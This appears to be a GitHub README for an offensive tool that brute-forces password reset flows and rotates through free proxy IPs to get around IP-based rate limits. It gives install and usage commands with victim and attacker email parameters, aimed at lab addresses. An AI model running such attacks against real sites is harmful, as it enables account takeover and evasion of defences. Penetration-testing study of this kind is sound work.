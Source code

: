 ## Password Reset Brute force with ip rotation

This tool is a simple brute force that implements the hacktricks methodology in reset password.
The tool comes with ip rotation also to bypass ip based rate limit.

There are 2 script included. 1 for getting proxy list on https://free-proxy-list.net and the other is for checking the password reset

### Installation

Run the command below to install the required libraries used in the tool.
* pip3
  ```sh
  pip3 install -r requirements.txt
  ```
  
### Usage

Tool usage.
* pip3
  ```sh
  python3 test.py -vm 'victim@email.com' -tm 'attacker@email.com' -p email -ah 10.0.2.15 -u http://10.0.2.2/ResetPassword.php
  python3 test.py -vm 'victim@email.com' -p email -to tokenvlue -top token -u http://10.0.2.2/ResetPassword.php
  
  for IP rotation
  python3 test.py -vm 'victim@email.com' -tm 'attacker@email.com' -p email -ah 10.0.2.15 -e -u http://10.0.2.2/ResetPassword.php
  
  ```

# Disclaimer
```sh
The tool is for education purpose only. Usage of the tool for attacking the website without consent is illegal. 
The end user of the tool will be responsible for the damage it might cause.
The developer of the tool assume no liability and not responsbile for any misuse and damage.
```

## Authors

[anantha](https://github.com/Ananthavijay)

[damaidec](https://medium.com/@damaidec)

#### References
```sh
https://book.hacktricks.xyz/pentesting-web/reset-password
https://hackerone.com/reports/819930
https://rhinosecuritylabs.com/aws/bypassing-ip-based-blocking-aws/
https://www.pluralsight.com/guides/extracting-data-html-beautifulsoup
https://www.thepythoncode.com/article/using-proxies-using-requests-in-python
```
